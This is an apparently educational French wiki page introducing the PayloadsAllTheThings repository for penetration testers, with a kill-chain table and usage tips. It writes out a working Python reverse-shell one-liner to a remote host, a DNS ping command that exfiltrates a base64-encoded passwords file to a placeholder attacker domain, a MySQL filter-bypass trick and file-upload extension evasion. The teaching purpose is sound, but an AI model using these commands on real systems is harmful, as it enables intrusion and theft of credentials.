

# Payloads All The Things — L'Encyclopédie

<div
  class="omny-meta"
  data-level="🟢 Débutant à Expert"
  data-version="Wiki Continue"
  data-time="~10 minutes">
</div>

<div style="text-align: center; margin: 0 auto;">
    
</div>

## Introduction

!!! quote "Analogie pédagogique — Le Grimoire des Sortilèges"
    Au cinéma, le hacker tape frénétiquement sur son clavier à 200 mots par minute. Dans la vraie vie, le hacker professionnel passe 50% de son temps à faire des "Copier-Coller" depuis un wiki central. 
    **Payloads All The Things (PATT)** n'est pas un logiciel. C'est le plus grand grimoire de sorts de la profession. Que vous cherchiez la ligne de code magique pour tromper un serveur Java, ou la commande exacte pour télécharger un fichier sur Windows sans utiliser PowerShell, la réponse s'y trouve.

Maintenu sur GitHub par le chercheur français **Swissky**, *Payloads All The Things* est une liste de ressources pour l'exploitation des vulnérabilités Web, la sécurité réseau et l'élévation de privilèges. C'est le carnet de notes universel de l'industrie : lorsqu'un chercheur découvre une nouvelle technique d'évasion, elle finit invariablement dans cette base de données.

<br>

---

## Structure & Architecture de la Base

PATT est découpé par **Technologies** ou par **Types de Vulnérabilités**.



<br>

---

## Intégration dans la Kill Chain

| Phase Précédente | PATT (La Base de Données) | Phase Suivante |
| :--- | :--- | :--- |
| **Recherche de Vulnérabilité** <br> (*Ex: Test d'upload Web*) <br> Le site Web refuse votre fichier `shell.php` car il bloque l'extension ".php". | ➔ **Consultation Stratégique** ➔ <br> Vous ouvrez la page *"Upload Insecure Files"* de PATT et trouvez une liste d'extensions alternatives. | **Exploitation (Contournement)** <br> (*Burp Suite*) <br> Vous renommez votre fichier en `shell.php5` ou `shell.phtml` (trouvé dans PATT) et le site accepte l'upload ! |

<br>

---

## Exemples d'Utilisation Typique (Workflow)

Un attaquant ne "lance" pas PATT. Il le consulte (sur GitHub) pour trouver le **One-Liner** parfait. Un *One-Liner* est une attaque complète compressée en une seule ligne de texte.

### 1. Chercher un Reverse Shell sans Netcat
Vous êtes sur un vieux serveur Linux qui n'a pas Netcat (`nc`) d'installé. Que faire ?
Vous ouvrez le dossier *Reverse Shell Cheat Sheet* de PATT, et vous trouvez la commande Python native :
```bash title="Reverse Shell One-Liner (Python)"
export RHOST="10.10.10.42";export RPORT=4444;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

### 2. Bypass d'une Injection SQL Complexe
Le pare-feu bloque le mot `SELECT`. Vous allez dans le dossier *SQL Injection*, section *WAF Bypass*.
PATT vous explique que sur MySQL, vous pouvez utiliser des commentaires à l'intérieur du mot : `SEL/*xxx*/ECT`.

### 3. Exfiltration de Données (Living Off The Land)
Vous avez volé un fichier sensible (`passwords.txt`), mais le pare-feu bloque les connexions FTP et HTTP sortantes. Comment le ramener chez vous ?
La page *Data Exfiltration* de PATT vous propose d'utiliser des requêtes DNS (qui ne sont jamais bloquées) :
```bash title="Exfiltration via ping DNS"
# Vous encoderez le fichier en base64, et ferez un ping contenant le texte :
ping `cat passwords.txt | base64`.votre-serveur-attaquant.com
```

<br>

---

## Bonnes & Mauvaises Pratiques (Do's & Don'ts)

| Action | Recommandation | Explication technique |
|---|---|---|
| ✅ **À FAIRE** | **Cloner le repo en local** | Lors de vos missions de Red Team ou le passage d'une certification (ex: OSCP), vous n'aurez pas toujours accès à Internet. Pensez à faire un `git clone` de PayloadsAllTheThings dans un dossier de votre Kali pour avoir un accès "Hors-Ligne" (Offline) immédiat avec un simple `grep`. |
| ❌ **À NE PAS FAIRE** | **Copier-Coller sans comprendre** | C'est le "Script Kiddie Syndrom". Si vous copiez une commande complexe (ex: un désérialiseur Java Ysoserial) sans comprendre ce qu'elle modifie en mémoire, vous risquez de détruire le service en production et de faire crasher le serveur du client de manière irréversible. |

